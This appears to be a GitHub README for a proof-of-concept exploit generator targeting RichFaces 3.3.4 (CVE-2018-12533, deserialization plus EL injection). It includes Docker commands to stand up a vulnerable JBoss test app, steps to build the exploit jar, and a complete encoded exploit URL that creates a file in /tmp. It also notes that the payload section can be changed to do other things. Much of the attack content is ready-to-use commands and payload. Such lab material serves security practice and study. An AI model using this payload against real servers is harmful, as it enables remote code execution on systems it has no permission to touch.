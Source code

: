 # RF-14310 / CVE-2018-12533 payload generator 
[Based on Lucifaer research](https://www.lucifaer.com/2018/12/05/RF-14310%EF%BC%88CVE-2018-12533%EF%BC%89%E5%88%86%E6%9E%90/)

All credit goes to https://github.com/Lucifaer 

## References
https://access.redhat.com/security/cve/cve-2018-12533


# richfaces-jboss-poc
Easy to deploy proof of concept to practice Richfaces 3.3.4 deserialization + EL injection exploitation, without having to worry too much about old Java versions etc.

## Deploy jboss Docker
To save you some trouble in setting up a vulnerable application, I created a Dockerfile based on the instructions in the seclist article explaining CVE-2018-14667. Just execute the following commands in the repository root directory:
```
docker build -t richfaces-jboss .
docker run -p 8081:8080 richfaces-jboss
``` 

If everything works, you can access the richfaces photoalbum test application on http://127.0.0.1:8081/photoalbum

## Compile the poc from the root repository dir into a fat jar (easy with docker and working pom)
```
cd CVE-2018-12533
docker run -v ~/.m2:/root/.m2 -v $(pwd):/usr/src/app maven:3.5-jdk-8 mvn -f /usr/src/app/pom.xml clean package install
```

## Generate the POC URL
```
java -jar target/cve_2018_12533.jar 
```

## surf to the URL on the jboss server
change the /DATA/XXXXX section to your payload if you want to do something else than creating a file in /tmp. This payload creates /tmp/hacked.txt
http://127.0.0.1:8081/photoalbum/a4j/s/3_3_3.Finalorg.richfaces.renderkit.html.Paint2DResource/DATA/eAHNUk1r1UAUnfegVq2L-oEiItQo-goyKSJu6gOxFX2QWukTwbp4zEtuk2knM-nkpo0W3Qmi4satIOJKUBD9Be6k4KY!QQRxIYggLvVOUlssuDebXGbOnHPuufflVzaQW3bG2JhbGSZzIoScW9AR2AWJPMFU8StCajw1OQO5KWwIxzqpiGFSoGi!X!s4!OvF6yYb7LDtvX48YZSxHTbYmzM2FeiqBGScULWttywjTGbZjlCECYi-goAN9CKiQbYnmBdLwldCx!50fx5CHA!oReaEF9kd1igzVn9N-pWMNU6yjHwfd89KXrsOTZoZDRp5lzjhklHURFcsgb2--rb9-MmHqSZrBqSvRJ5fFin8rdtFK3VMujtzehNVHMj2186k8btgpVDylnM-XmZO!gRJ8rzQlQEFmHNQPIBYhDenABMTnZc6ItJ1740mawSskSI7VLGWPii!Bl4oMwt5Lo0m6n8xXxXxVvQf5l2UimUH6zjIxFbcG3!1waefpx9RfITbu4Hb1H1-9373--zaWYdwDo64lZjvm7xqaitfJ81U!9uBH0Pvdk85bTekoeWH7N7RFQuLBeTIY8AJl3RrdKMMjKCR0IGior70nBXuBs9nCo0yBa!C14Itj1g2z6VeMgvQ0oVSoxxKCFsemiJMRnxMMz8R4QJEHEv0Rm8zVlCfN6qca!r1-b5au!b5y-GVi1WfFF8T2b7KgzR8usCsQAKCoCENb1qrdzLLyuVn7OnIubGTYyNtLyQYwoTRSDvX!l8a98rfWVxP3w__.jsf


## Drop into a shell in a separate terminal to analyze payload success
```
docker ps
docker exec -it <containerid> bash
ls /tmp
```

When using the exploit out of the box, it will create /tmp/cve_2018_12533, so this way you can confirm if the exploit worked.
